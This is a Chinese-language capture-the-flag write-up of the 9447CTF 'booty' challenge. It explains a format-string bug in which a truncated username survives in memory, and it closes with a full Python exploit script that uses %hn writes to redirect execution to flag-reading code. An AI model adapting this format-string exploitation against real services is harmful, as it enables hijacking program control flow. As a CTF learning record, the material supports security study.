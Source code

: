 ```yaml
---
layout: post
title: 9447CTF booty writeup
catagories: [ctf]
tags: [ctf, writeup, 9447ctf]
---
```


> 这是一个格式化字符串的漏洞

我看这一题的时候，pxx已经把程序的流程逆的非常清楚了。

这个题目首先要求输入一个用户名，然后与电脑打，打了九关以后，会把输入的用户名打印出来。
`0x08048A30`应该在这个地方。printf时，直接把用户名做参数传了进来，没有format。可能会导致漏洞。
但经过对程序的分析发现，程序会对你输入的用户名，从第一次出现的`%`的地方进行截断，只取前一部分。
貌似不能利用了？

我们卡在这一地方很长时间，kelwin大神给出了一个大大的HINT，让我们再打第二遍。至此才发现，
再打一次时，上次的用户名被截断的后一部分，仍保留在内存中，当第二次输入用户名时与上一次输入的用户名接续上以后，
就会把后面的%利用起来。

OK，既然能利用格式化字符串漏洞改变程序执行流了，那就想怎么写个shellcode吧，检查发现，竟然开了栈不可执行。
进一步发现，程序很人性化，给了一段读`/home/booty/flag`的代码，我们只需把eip跳到这一段代码的开始地方即可。

附利用代码：

```python
#!/usr/bin/env python2
import struct
import time
import re
from zio import *

debug = False
#debug = True
if debug:
    io = zio('./booty', timeout=9999) 
else:
    io = zio(('booty.9447.plumbing', 9447), timeout=9999)

data  = io.read_until('>')
print data

#read flag code's start address: 0x080487C0, got it from ida
#name = "AAAABBB%00000x%30$hp%00000x%31$hp" + "\n"  #string format exploit template 32bit
name = "AAAABBB%%02044x%30$hn%32700x%31$hn" + "\n"
io.write(name)
arg = re.compile("0x(\w+)")
argaddress = ""
while 1:
    try:
        data  = io.read_until('>')
        print data+'\n'
        if data.find("tense up") != -1:
            io.write("r\n")
        elif data.find("flex their muscles") != -1:
            io.write("h\n")
        elif data.find("looking exhausted") != -1:
            io.write("p\n")
        elif data.find("your treasure") != -1:
            arggroup = arg.findall(data)
            argaddress = arggroup[0]
            print "------####################################---------"
            print argaddress
            print "------####################################---------"
            break
    except:
        pass
#for GDB debugger attach
raw_input()

address1 = struct.pack("I", int(argaddress,16)+13)
address2 = struct.pack("I", int(argaddress,16)+15)

name = address2 + address1 + "\n"

io.write("y\n")
io.read_until('> >')
io.write(name)
while True:
    try:
        data  = io.read_until('>')
        print data+'\n'
        if data.find("tense up") != -1:
            io.write("r\n")
        elif data.find("flex their muscles") != -1:
            io.write("h\n")
        elif data.find("looking exhausted") != -1:
            io.write("p\n")
        elif data.find("your treasure") != -1:
            break
    except:
        pass
io.interact()
```
